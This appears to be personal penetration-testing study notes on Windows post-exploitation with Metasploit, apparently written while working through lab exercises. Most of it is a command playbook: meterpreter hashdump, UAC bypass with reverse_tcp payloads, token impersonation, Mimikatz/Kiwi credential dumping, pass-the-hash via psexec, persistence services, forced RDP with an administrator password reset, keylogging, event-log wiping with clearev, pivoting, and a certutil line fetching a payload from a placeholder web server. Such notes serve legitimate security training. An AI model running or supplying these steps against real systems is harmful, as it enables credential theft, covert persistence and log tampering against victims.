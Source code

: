 Windows executables are stored in `/usr/share/windows-binaries`

# Enumerations

- User privileges
- Logged on users
- VM check
- Installed programs
- AV's
- Computers connected to domain
- Installed patches
- Shares

**Shell**
```shell
hostname
systeminfo
net user [user]
whoami /priv
```

Windows meterpreter commands:
```
sysinfo
getsystem
hashdump
show_mount
ps
```

After `migrate` to a higher process (like explorer.exe) previously unavailable command like f.e. `hashdump` is accessible.

`search migrate` -> possible if classic migrate fails?
`search win_privs` -> enumeration of user privileges ->
- Is System - possible AV (fe. token impersonation)
- Is In Local Admin Group
- UAC Enabled - possible AV

`search enum_logged_on` -> currently/recent logged on users
`search checkvm` -> breaking out of VM (advanced technique)
`search enum_app` -> important enum of installed software (and version) that can be exploited

**loot** - all of the stored enums

Exclusion of Anti-Virus folders that are not scanned:
`search type:post platform:windows enum_av` -> potential dir's to store the code/payloads

`search enum_computers` -> check if it's part of a domain
`search enum_patches` -> important hot fix patches to check for possible vulnerability, might need to migrate to other process, if the enum is not working: `shell, systeminfo`
`search enum_shares` -> sharing of resources via smb

# Bypassing UAC

This technique exists in all of the versions of windows, it's very effective and doesn't require many tinkering. MSF offers many UAC bypass possibilities

shell within meterpreter:
`net user`
`net localgroup administrators`

`search bypassuac` -> it's important to set the right architecture (x64?) for payload:
`set payload windows/x64/meterpreter/reverse_tcp`
`set target` -> again set correct architecture
and run

`get system` ... `hashdump` etc.

This technique works very well for Vista+

# Token impersonation with Incognito module

Access token - temporary key, cookie in a windows system generated by winlogon.exe and attached to userini.exe, all child processes inherit a copy of the access token from the creator and gain privileges. It separates processes according to security levels:
- impersonate-level: non-interactive login
- delegate-level: via standard login or RDP login -> can be used to impersonate on any system
Following privileges are required:
- SeAssignPrimaryToken
- SeCreateToken
- SeImpersonatePrivilege

`getprivs` -> check for privileges
`load_incognito` (in meterpreter session)
`list_tokens -u` -> displays **which tokens are available** and copy one of them to:
`impersonate_token <token>` (ATTACKDEFENSE\Administrator)

The process meterpreter is running in is still not privileged so `migrate` to elevated process is necessary to get `hashdump`

# Dumping hashes with Mimikatz

**SAM** - database and database file that stores passwords. Mimikatz has executable while Kiwi extension for MSF is in-memory.

`load_kiwi`
`getsystem`
`pgrep lsass` (x64 process that manages SAM)
`migrate` to lsass pid

Dumping of the passwords after gaining elevated privs:
`creds_all`
`lsa_dump_sam`
`lsa_dump_secrets`

# Pass-The-Hash with PsExec, exploiting SMB

Having hashes from `hashdump` we can login with:

`seach psexec` exploit/windows/smb/psexec
`set payload` windows/x64/meterpreter/reverse_tcp (64bit system)

In `options` we need to set SMBUser as Administrator and SMBPass as `hash:hash`

Voila, access gained!


# Establishing Persistence on Windows

- Creating a service that guarantees access after changing of creds.
We need administrative access first.

`search` platform:windows persistence -> persistence_service module
set payload for 32bit  .. windows/meterpreter/reverse_tcp

Persistence is activated throughout restarts. We just need a multi/handler and set the same payload, and run to get connection

# Enabling RDP (desktop)

TCP Port 3389
This is control protocol with visual GUI only on that port.

`search enable_rdp` 

in shell to change password:
`net user administrator hacker_123321`

`xfreerdp /u:administrator /p:hacker_123321 /v:<IPaddress>`

It is recommended to create another user account that is added to Administrative Group!

# Keylogging

Migrate to explorer.exe process!
`pgrep explorer.exe ... migrate ...`
`keyscan_start, keyscan_dump, keyscan_stop`

# Windows Event Logs Cleanup

**Event Viewer** -> Windows Logs -> Security
In meterpreter:
`clearev` - and it's done!

# Pivoting MSF

important is **autoroute**

After getting initial foothold at first system: `ipconfig` to find subnet which needs to be added: `run autoroute -s 10.2.13.0/20`

`search portscan`
`use auxiliary/scanner/portscan/tcp` -> scan ports 1-100 on victim2 machine.
Now, I know that port 80 is open, so lets forward: Port 1234 -> 80 -> victim2

```
# Inside a meterpreter session
portfwd add -l <attacker_port> -p <Remote_port> -r <Remote_host>
```

Now `db_nmap -sV -sS -p 1234 localhost` displays port 80 on target machine. This means that I can use the exploit (badblue).
`set payload windows/meterpreter/bind_tcp` 
`set RHOSTS victim2`
`set LPORT 4333`
`run`

# Downloading

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/d93a228b40734144bfc2c6de0441197b262b10e5/Methodology%20and%20Resources/Windows%20-%20Download%20and%20Execute.md#L103

```
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64
```

# Mimikatz

https://github.com/ParrotSec/mimikatz
